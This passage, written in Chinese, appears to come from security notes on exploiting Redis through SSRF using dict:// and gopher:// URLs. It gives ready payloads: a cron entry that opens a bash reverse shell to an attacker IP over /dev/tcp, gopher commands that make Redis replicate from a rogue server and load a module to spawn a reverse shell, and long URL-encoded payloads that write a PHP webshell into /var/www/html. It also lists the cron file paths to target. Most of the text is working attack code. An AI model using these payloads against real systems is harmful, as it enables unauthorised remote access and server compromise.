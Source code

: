 
```
set 1 '\n\n*/1 * * * * root /bin/bash -i >& /dev/tcp/ip/port 0>&1\n\n'

转换一下即：
url=dict://192.168.124.153:6380/set:shell:"\n\n\x2a\x20\x2a\x20\x2a\x20\x2a\x20\x2a\x20root\x20/bin/bash\x20\x2di\x20\x3e\x26\x20/dev/tcp/192.168.124.141/2333\x200\x3e\x261\n\n"
//但还要注意这里不能够这么写：\x5c 而应该直接就 \n，也不要写\r\n 因为linux换行符就是\n你写\r反而可能会出现参数污染
```

### gopher
gopher支持多行。因此要在传输的数据前加一个无用字符。比如gopher://ip:port/_ 通常用_，并不是只能用_，gopher协议会将第一个字符"吃掉"
```
#设置文件名，连接恶意Redis服务器
gopher://192.168.172.131:6379/_config%2520set%2520dbfilename%2520exp.so%250d%250aslaveof%2520192.168.172.129%25201234%250d%250aquit
 
#加载exp.so，反弹shell
gopher://192.168.172.131:6379/_module%2520load%2520./exp.so%250d%250asystem.rev%2520192.168.172.129%25209999%250d%250aquit
```
+ 写文件
工具：https://github.com/firebroo/sec_tools/tree/master/
使用方法：
redis.cmd写入攻击所需的redis指令
```
flushall
config set dir /tmp
config set dbfilename shell.php
set 'webshell' '<?php phpinfo();?>'
save
```
运行 redis-over-gopher.py 得到payload
如果这里使用的是curl命令（比如在命令行curl + gopher）url编码一次即可。也就是用下面的payload就可以
```
gopher://192.168.124.153:6380/_%2a%31%0d%0a%24%38%0d%0a%66%6c%75%73%68%61%6c%6c%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%33%0d%0a%64%69%72%0d%0a%24%31%33%0d%0a%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%0d%0a%2a%34%0d%0a%24%36%0d%0a%63%6f%6e%66%69%67%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%31%30%0d%0a%64%62%66%69%6c%65%6e%61%6d%65%0d%0a%24%31%33%0d%0a%73%68%65%6c%6c%5f%73%65%63%2e%70%68%70%0d%0a%2a%33%0d%0a%24%33%0d%0a%73%65%74%0d%0a%24%38%0d%0a%77%65%62%73%68%65%6c%6c%0d%0a%24%31%38%0d%0a%3c%3f%70%68%70%20%70%68%70%69%6e%66%6f%28%29%3b%3f%3e%0d%0a%2a%31%0d%0a%24%34%0d%0a%73%61%76%65%0d%0a
```
如果是web端的参数有ssrf，需要url编码两次才可以打进去，只编码一次时 ？ 会作为干扰使得后面payload打不进去。编码时只把特殊符号编码即可，如下：
```
gopher://192.168.124.153:6380/_%252a%2531%250d%250a%2524%2538%250d%250a%2566%256c%2575%2573%2568%2561%256c%256c%250d%250a%252a%2534%250d%250a%2524%2536%250d%250a%2563%256f%256e%2566%2569%2567%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2533%250d%250a%2564%2569%2572%250d%250a%2524%2531%2533%250d%250a%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%250d%250a%252a%2534%250d%250a%2524%2536%250d%250a%2563%256f%256e%2566%2569%2567%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2531%2530%250d%250a%2564%2562%2566%2569%256c%2565%256e%2561%256d%2565%250d%250a%2524%2531%2533%250d%250a%2573%2568%2565%256c%256c%255f%2573%2565%2563%252e%2570%2568%2570%250d%250a%252a%2533%250d%250a%2524%2533%250d%250a%2573%2565%2574%250d%250a%2524%2538%250d%250a%2577%2565%2562%2573%2568%2565%256c%256c%250d%250a%2524%2531%2538%250d%250a%253c%253f%2570%2568%2570%2520%2570%2568%2570%2569%256e%2566%256f%2528%2529%253b%253f%253e%250d%250a%252a%2531%250d%250a%2524%2534%250d%250a%2573%2561%2576%2565%250d%250a
```
写入成功。
+ 定时任务反弹shell
> centos： 在/var/spool/cron/root 或 /etc/crontab
> ubuntu: 在/var/spool/cron/crontabs/root 或 /etc/crontab
> Ubuntu这个计划任务吧，利用redis写入总会出现问题，这里使用centos的环境。
